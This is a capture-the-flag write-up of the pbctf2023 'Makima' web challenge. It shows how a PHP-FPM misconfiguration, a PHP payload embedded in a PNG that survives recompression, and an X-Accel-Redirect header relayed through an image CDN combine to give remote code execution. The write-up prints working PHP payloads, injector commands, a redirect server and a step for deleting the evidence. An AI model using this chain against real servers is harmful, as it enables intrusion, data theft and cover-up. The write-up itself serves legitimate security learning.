

#### pbctf2023/web
# Makima
by Arc'blroth

> [**Vie**](https://twitter.com/vie_please/status/1627496789740777475?s=20)
>
> @vie_please
> <br><br>
>
> Makima had 11 (no 12 thank you 0rganizers) solves, and was a PHP image polyglot chal.

This was a multi-layered challenge that involved stringing together a lot of smaller exploits into one final RCE vulnerability. Though nothing can tear me away from the cuteness of Pochita, I still found this challenge fun - thanks Vie!

## asisctf2022/web/phphphphphp flashbacks

> Makima simps check in here: http://makima.chal.perfect.blue/

<p align="center">
	<br>
	<i>I wonder why the Upload Image box is just a text box...</i>
</p>
<br>

Quite literally the first thing I noticed upon cracking open the source code for this challenge was the line

```conf
; web/nginx/www.conf

; Limits the extensions of the main script FPM will allow to parse. This can
; prevent configuration mistakes on the web server side. 
security.limit_extensions = 
```

Why is this line such a big deal? From the [research](https://nealpoole.com/blog/2011/04/setting-up-php-fastcgi-and-nginx-dont-trust-the-tutorials-check-your-configuration/) I did in trying to solve asisctf2022's phphphphphp challenge, I learned that FastCGI's default (!) configuration contains the line

```conf
cgi.fix_pathinfo=1
```

which means that given the existence of some file `/totally-normal-file.txt` on a webserver, FastCGI will attempt to interpret that file as PHP code when navigating to `/totally-normal-file.txt/evil.php`!

> The rationale for having path-fixing on by default is to allow slightly mis-encoded urls of the form `/something.php/some-path-argument.php` to work as expected, passing `/some-path-argument.php` to the script for `/soemthing.php`. Typically this _isn't_ a security issue because modern distributions of php-fpm [properly configure `security.limit_extensions = php` by default](https://serverfault.com/questions/627903/is-the-php-option-cgi-fix-pathinfo-really-dangerous-with-nginx-php-fpm) - but as we've seen a single misconfiguration is all it takes to exploit this!

A quick `docker exec` command tells us that the challenge container is running an otherwise default-configured version of PHP-FPM - meaning that the challenge server is in fact vulnerable to any PHP code we manage to upload. All we have to do now is, well, upload that PHP code - shouldn't be too hard, right?

## psi beta rho presents: applied steganography

Taking a look at the _actual_ source code of the challenge now, we find that Makima allows us to upload arbitrary images from any URL on the Internet, which explains the singular text box from earlier.

When POSTing an image URL to the frontend server, the frontend first forwards the image request to the backend "cdn"...
```php
if(isset($_POST["url"])){ 
    $cdn_url = 'http://localhost:8080/cdn/' . $_POST["url"];
    $img = @file_get_contents($cdn_url);
    $f = finfo_open();
    $mime_type = finfo_buffer($f, $img, FILEINFO_MIME_TYPE);
    $fileName = 'uploads/' . substr(md5(rand()), 0, 13);
    $success = makeimg($img, $fileName, $mime_type);
    if ($success !== 0) {
        $msg = $success;
    }
}
```

...which then performs the actual task of grabbing the image from the provided URL:
```py
@app.route("/cdn/<path:url>")
def cdn(url):
    mimes = ["image/png", "image/jpeg", "image/gif", "image/webp"]
    r = requests.get(url, stream=True)
    if r.headers["Content-Type"] not in mimes:
        print("BAD MIME")
        return "????", 400
    img_resp = make_response(r.raw.read(), 200)
    for header in r.headers:
        if header == "Date" or header == "Server":
            continue
        img_resp.headers[header] = r.headers[header]
    return img_resp
```

The frontend then compresses the image and saves it to the `uploads/` directory with a randomly generated hash:
```php
function makeimg($data, $imgPath, $mime) {
    error_log(substr($data, 0, 32));
    $img = imagecreatefromstring($data);
    switch($mime){
        case 'image/png':
            $with_ext = $imgPath . '.png';
            imagepng($img, $with_ext);
            break;
        case 'image/jpeg':
            $with_ext = $imgPath . '.jpg';
            imagejpeg($img, $with_ext);
            break;
        case 'image/webp':
            $with_ext = $imgPath . '.webp';
            imagewebp($img, $with_ext);
            break;
        case 'image/gif':
            $with_ext = $imgPath . '.gif';
            imagegif($img, $with_ext);
            break;
        default:
            $with_ext = 0;
            break;
        }
    return $with_ext;
}
```

Besides the strict MIME-type checking, nothing seems out of place with this code so far. Note that since any image we submit gets re-encoded on the frontend server, any payload we make has to both be a valid image _and_ survive PHP's recompression algorithm.

Since making such an image sounds _hard_, let's head over to Google and see if anyone has already written a script for this:


Like a moth attracted to a light, I immediately clicked on the 3rd search result to [dlegs/php-jpeg-injector](https://github.com/dlegs/php-jpeg-injector), which seems to perfectly fit our use case ("You have a web application that runs a jpeg image through PHP's GD graphics library"). Bingo!

```php
<!-- exploit.php -->
<?=file_get_contents("/flag")?>
```

```sh
$ git clone https://github.com/dlegs/php-jpeg-injector
$ cd php-jpeg-injector
# note: we have to generate a lossless jpeg for gd-jpeg to work
$ ffmpeg -i ../steg-out.png -qscale 0 -compression_level 0 -lossless -o ../steg-out.jpg
$ python gd-jpeg.py ../steg-out.jpg "$(cat ../exploit.php)" ../payload.jpg
```


Now if we just host the image on a server real quick...
```sh
$ python -m http.server
```
...and upload it to the site...


...we should be able to trigger our code by going to [http://makima.chal.perfect.blue/uploads/e910cdc15b654.jpg/pbr.php](http://makima.chal.perfect.blue/uploads/e910cdc15b654.jpg/pbr.php):


...wait what? Did our payload not survive recompression?



...it didn't.

Welp. Let's go up one search result and try again! The article [_Persistent PHP payloads in PNGs_](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) by Quentin Roland contains not one but _five_ different ways to inject PHP code into PNGs that will (theoretically) survive PHP's recompression algorithm. I picked method #3 (mostly because the code for that method was the easiest to copy-paste-run), which generates the following sus-looking PNG:

```sh
$ php injector.php  "$(cat ../exploit.php)" ../payload.png
```


Now if we host and upload _this_ image to the site, our exploit should finally work:


...or not. Did this one also not survive recompression?


...the image _did_ survive recompression though. I'm clearly missing something big here - so given that we probably otherwise have a working payload, let's take another look at the source code.

## internal food poisoning

Looking at the `web/nginx/default.conf` file again, I noticed something that I haven't seen before:

```conf
server {
    listen 8080 default_server;
    listen [::]:8080 default_server;
    root /var/www/html;
    server_name _;

    location / {
        index index.php;
    }

    location ~ \.php$ {
        internal;
        include fastcgi_params;
        fastcgi_intercept_errors on;
        fastcgi_param  SCRIPT_FILENAME $document_root$fastcgi_script_name;
        fastcgi_pass unix:/run/php/php7.4-fpm.sock;
    }

    location /cdn/ {
        allow 127.0.0.1/32;
        deny all;
        proxy_pass http://cdn;
    }

}
```

What does that `internal;` line mean? Googling around brings us to the [NGINX docs](https://nginx.org/en/docs/http/ngx_http_core_module.html#internal). which state


So that's why we're getting a 404 when we try to trigger the exploit - only pages redirected from `/` or the cdn can run PHP code. All other requests will end in a cryptic but security-preserving 404!

...but what if we used the CDN to hack the CDN? Since the CDN itself makes a web request to grab the image, we could just direct the CDN to grab the payload image from itself, thereby tricking the server into running PHP from an "internal" address. All we have to do is to make our exploit return an image...

```php
<?php
header("Content-Type: image/png");
$flag = file_get_contents("/flag");
$img = imagecreate(512, 512);
$bg = imagecolorallocate($img, 0, 0, 0);
$fg = imagecolorallocate($img, 255, 255, 255);
imagerectangle($img, 0, 0, 512, 512, $bg);
imagestring($img, 5, 100, 100, $flag, $fg);
imagepng($img);
imagedestroy($img);
?>
```


...upload our new payload, and then ask the CDN to fetch that new payload:


...except that also doesn't work. Huh.


At this point my team decided to go to dinner together, where we enjoyed the fine Italian cuisine at Epicuria (at Covel (at UCLA)).

<details>
<summary>Most Cooked Fish at Epic</summary>

</details>
<br>

But while digesting UCLA's food poisoning, I re-read the docs for `internal;` and realized _why_ the above idea hadn't worked - even a request from the CDN isn't considered an internal request, since that isn't routed by NGINX! In order to truly be considered an internal request, according to the docs, we need to either:

- redirect from a directive in `default.conf`, which we have no control over
- or return `X-Accel-Redirect` from an "upstream server"

There aren't any `upstream` directives in the `default.conf` file, so at first I thought this was a dead end. But after [reading a bit more](https://blog.horejsek.com/nginx-x-accel-explained/) of the (surprisingly little documentation) on `X-Accel-Redirect`, I discovered that NGINX treats `*_pass` servers as upstream servers for the purpose of `X-Accel-Redirect`.

Wait. Doesn't the CDN return pretty much every header passed to it?

```py
@app.route("/cdn/<path:url>")
def cdn(url):
    // -- snip --
    img_resp = make_response(r.raw.read(), 200)
    for header in r.headers:
        if header == "Date" or header == "Server":
            continue
        img_resp.headers[header] = r.headers[header]
    return img_resp
```

Things are about to get interesting.

## it works on my machine:tm:


Modifying some of the code in the above reading, we can throw together a server that returns a bogus image with a redirect to our payload:

```py
from flask import *

app = Flask(__name__)

@app.route("/trigger.png")
def cdn():
    print("trigger!")
    response = make_response()
    response.headers['Content-Type'] = 'image/png'
    response.headers['X-Accel-Redirect'] = '/uploads/e4c7c7c2e9305.png/pbr.php'
    return response


if __name__ == "__main__":
    app.run(debug=False, host='0.0.0.0', port=8082)
```

We can then build our final exploit...

```php
<?php
file_put_contents("/var/www/html/uploads/.psibetarho.png", file_get_contents("/flag"));
?>
```

> Note: Originally I wrote this payload to do a webhook call, which worked with local testing but not on remote :pensive:. We'll have to use the old temp-file-write trick instead!

...turn it into an image...

```sh
$ php injector.php  "$(cat ../exploit.php)" ../payload.png
```


...upload it...


...and then commit identity theft on the CDN:


And there's the flag. Woohoo!

## bonus: removing the evidence

At this point we have arbitrary RCE on the server, which means that to get rid of the file with the flag in it all we have to do is to deploy a second payload using `unlink`:

```php
<?php
unlink("/var/www/html/uploads/.psibetarho.png");
?>
```


